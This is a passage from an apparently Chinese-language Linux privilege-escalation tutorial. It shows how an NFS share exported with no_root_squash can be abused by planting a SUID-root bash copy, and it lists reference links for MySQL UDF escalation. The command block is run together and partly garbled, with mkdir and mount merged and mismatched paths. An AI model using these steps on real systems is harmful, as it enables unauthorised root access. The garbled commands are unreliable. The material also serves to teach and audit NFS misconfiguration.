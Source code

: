 提权成功

## 0x0a NFS

NFS 是一个用来共享目录的东西，但若配置权限不当则会引发安全问题

### no_root_squash

我们cat /etc/exports 如果有no_root_squash字样，则说明root用户就会对共享目录拥有至高的权限控制，就像是对本机的目录操作一样。

也就是说，任何机器的root在此目录上都有最高权限。

我们在获得一台机器的root权限后，可以通过nfs在另一台低权限机器上实现提权

```
mkdir /tmp/nfsmount -o rw,vers=3 10.10.10.10:/tmp /tmp/nfs 将本机上的/tmp/nfs 挂载到共享目录cp /bin/bash /tmp/nfs/bashchmod u+s /tmp/nfs/bash  设置共享目录上bash的suid
```

回到低权限机，执行 /tmp/bash 完成提权

## 0x0b mysql 提权

mysql 提权参考：

https://bernardodamele.blogspot.com/2009/01/command-execution-with-mysql-udf.html

https://www.sqlsec.com/2020/11/mysql.html

https://xz.aliyun.com/t/10373